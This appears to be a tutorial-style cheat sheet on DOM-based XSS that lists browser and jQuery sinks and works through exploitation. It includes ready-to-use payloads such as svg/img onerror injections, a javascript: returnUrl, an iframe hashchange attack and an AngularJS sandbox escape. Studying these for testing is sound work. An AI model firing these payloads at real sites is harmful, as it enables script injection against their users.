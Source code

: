 https://github.com/wisec/domxsswiki/wiki

The following are some of the main sinks that can lead to DOM-XSS vulnerabilities:
- document.write() 
- document.writeln() 
- document.domain 
- element.innerHTML 
- element.outerHTML 
- element.insertAdjacentHTML 
- element.onevent

The following jQuery functions are also sinks that can lead to DOM-XSS vulnerabilities:
- add() 
- after() 
- append() 
- animate() 
- insertAfter() 
- insertBefore() 
- before() 
- html() 
- prepend() 
- replaceAll() 
- replaceWith()
- wrap() 
- wrapInner() 
- wrapAll() 
- has() 
- constructor() 
- init() 
- index() 
- jQuery.parseHTML() 
- $.parseHTML()


Write` sink works with `script` elements, so you can use a simple payload, such as the one below:

```
document.write('... <script>alert(document.domain)</script> ...');
```

```
"><svg onload=alert(1)>
```
```
"></select><img%20src=1%20onerror=alert(1)>
```

## Steps to find document.write vuln

- Find exploitable JS sink such as
	- `location`
	- `location.href`
	- `location.pathname`
	- `location.search`
	- `location.protocol`
	- `location.hostname`
- Try to escape and print text on webpage
- Use a XSS payload

## DOM XSS in jQuery

If a JavaScript library such as jQuery is being used, look out for sinks that can alter DOM elements on the page. For instance, jQuery's `attr()` function can change the attributes of DOM elements. If data is read from a user-controlled source like the URL, then passed to the `attr()` function, then it may be possible to manipulate the value sent to cause XSS. For example, here we have some JavaScript that changes an anchor element's `href` attribute using data from the URL:

`$(function() { $('#backLink').attr("href",(new URLSearchParams(window.location.search)).get('returnUrl')); });`

You can exploit this by modifying the URL so that the `location.search` source contains a malicious JavaScript URL. After the page's JavaScript applies this malicious URL to the back link's `href`, clicking on the back link will execute it:

`?returnUrl=javascript:alert(document.domain)`

jQuery used to be extremely popular, and a classic DOM XSS vulnerability was caused by websites using this selector in conjunction with the `location.hash` source for animations or auto-scrolling to a particular element on the page. This behavior was often implemented using a vulnerable `hashchange` event handler, similar to the following:


`$(window).on('hashchange', function() { var element = $(location.hash); element[0].scrollIntoView(); });`


As the `hash` is user controllable, an attacker could use this to inject an XSS vector into the `$()` selector sink. More recent versions of jQuery have patched this particular vulnerability by preventing you from injecting HTML into a selector when the input begins with a hash character (`#`). However, you may still find vulnerable code in the wild.

To actually exploit this classic vulnerability, you'll need to find a way to trigger a `hashchange` event without user interaction. One of the simplest ways of doing this is to deliver your exploit via an `iframe`:

`<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">`

In this example, the `src` attribute points to the vulnerable page with an empty hash value. When the `iframe` is loaded, an XSS vector is appended to the hash, causing the `hashchange` event to fire.

## Angular JS

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md

If a framework like AngularJS is used, it may be possible to execute JavaScript without angle brackets or events. When a site uses the `ng-app` attribute on an HTML element, it will be processed by AngularJS. In this case, AngularJS will execute JavaScript inside double curly braces that can occur directly in HTML or inside attributes.

`{{constructor.constructor('alert(1)')()}}`

## Reflected DOM XSS

`eval('var data = "reflected string"');`

Ex:
`eval('var searchResultsObj = ' + this.responseText);`

`\"-alert(1)}//`

